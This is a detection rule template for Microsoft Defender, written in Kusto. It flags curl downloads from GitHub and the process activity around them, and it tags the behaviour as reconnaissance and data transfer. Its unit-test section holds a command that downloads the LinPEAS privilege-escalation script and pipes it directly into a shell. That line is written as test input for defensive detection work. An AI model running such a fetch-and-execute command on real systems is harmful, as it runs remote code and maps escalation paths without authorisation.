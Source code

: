 # Detection Rule Template

## Basic Information

- **Author:** y0uf0ol
- **Creation Date:** 02/23/2024
- **Maturity:** Testing
- **Reference:** /

## Naming

- **Name:** Data Transfer and Reconnaissance Activity via Network Utilities
- **Description:** Identifies suspicious inbound data transfers and network exploration using command-line network utilities. This could signal attack preparation, malware delivery, or attempts to profile your network.

## Technical Details

- **Tags:** T1595 T1560
- **Data Source:** Kusto: DeviceProcessEvents

## Rule Implementation

```yaml
let curl = (DeviceProcessEvents
| where ProcessCommandLine contains "curl" and ProcessCommandLine contains "github" //these are examples
| project Timestamp);
DeviceProcessEvents
| where Timestamp between ((toscalar(curl) - 5min) .. (toscalar(curl) + 5min))
| project Timestamp, DeviceId, FileName, FolderPath, SHA1, ProcessCommandLine, InitiatingProcessCommandLine, ReportId
| sort by Timestamp desc 

```

- **Response:** Check for actions before and after the Alert
- **False Positive:** Legit usage of a downloaded tool
- **Severity:** low
- **Confidence:** low
 

 ## Unit Test

```yaml
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
